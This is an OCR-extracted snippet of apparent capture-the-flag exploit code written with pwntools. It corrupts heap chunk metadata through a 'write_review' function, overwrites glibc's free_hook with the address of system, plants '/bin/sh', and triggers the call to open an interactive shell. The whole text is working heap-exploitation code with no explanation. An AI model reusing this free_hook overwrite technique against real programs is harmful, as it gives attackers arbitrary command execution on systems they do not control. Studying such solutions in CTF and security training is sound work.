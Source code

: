 ```
write_review(6, 10, '/bin/sh')

stu6_writeaddr = chunk_addr[4] + 0x50	

payload = p64(chunk_addr[4] + 0x30)	
payload += p64(0) * 4
payload += p64(0x21)	
payload += p64(1)
payload += p64(free_hook)	
write_review(5, 0, payload, bytes=True)

write_review(6, 0, p64(sys_addr), bytes=True)

payload = p64(chunk_addr[4] + 0x30)	
payload += p64(0) * 4
payload += p64(0x21)	
payload += p64(1)
payload += p64(stu6_writeaddr)
write_review(5, 0, payload, bytes=True)

change_role(0)
call_parent(6)
io.interactive() 
```